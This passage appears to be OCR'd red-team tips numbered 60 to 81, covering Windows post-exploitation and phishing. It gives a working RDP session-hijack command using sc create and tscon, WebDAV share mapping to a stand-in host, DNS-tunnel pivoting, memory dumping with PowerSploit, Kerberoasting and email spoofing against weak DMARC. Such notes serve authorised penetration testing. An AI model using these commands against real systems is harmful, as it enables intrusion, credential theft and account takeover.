 * 60: Type "query user" to see who else is connected to the machine.

* 61: Get a quick patch list using wmic qfe list brief. Cross ref KB to bulletins.

* 62: Found a process of interest? Dont forget to obtain a MiniDump! Use Out-MiniDump https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1

* 63: Finally in CyberArk, click policies and see safes but no account? Go to accounts search and search for empty and safes show up

* 64: Is WebDav allowed through the gateway? Using http mini redirector? Dont exfiltrate or send in files. WebDav is subject to DLP

* 65: WebDav mini http redirector: net use * http://totallylegit.com/share . Then start z:

* 66: Found potential MQ creds? ActiveMQ? Try out https://github.com/fmtn/a , works to query MQ endpoints that dont use self signed crt

* 67: Use vssadmin to list and create volume shadow copies

* 68: Pivoting into a secure zone that has no DNS or web gateway and need exfil? Netsh port forward pivot UDP 53 to DNS 53 then boom

* 69: Have blue hidden the ways including winkey+R? Try shift and right click desktop and open command prompt

* 70: Tracked down that putty session? Popped the box? Query user and check the victims logon time and idle times

* 71: Hijack his Session using sc create sesshijack binpath= "cmd.exe /k tscon <ID> /dest:<SESSIONNAME>" then use putty session

* 72: Most people understand email sec wrong. SPF does not mean not spoofable. SPF does nothing without DMARC.

* 73: Weak DMARC on victim org domain? Spoof their own emails back into themselves! You even inherit their AD name and photo

* 74: Got access to Microsoft OWA mailbox or O365? You can extract global catalog from contacts use @Burp_Suite and parse JSON object

* 75: Write PHP delivery scripts that can mutate your payloads and add unique trackers per download. This tracks file being executed

* 76: Simulating a criminal threat story with smash and grab agenda? Phish users and hot swap payload mid campaign to test formats

* 77: RCE on a web application for less mature client? nslookup -q=srv _ldap._tcp if its domain joined Invoke-Kerberoast

* 78: @benichmt1 suggests looking for vmdk files across the network. You can use this to potentially access segregated networks

* 79: Obfuscation is never bad, especially when its a button click. @danielhbohannon - https://github.com/danielbohannon

* 80: Need to sweep for uptimes? Use wmic /node:"<computer>" OS get LastBootUpTime in a for loop

* 81: Looking for systems running KeePass? Run a for loop on wmic /node:"host" process list brief :) then look at RT #82
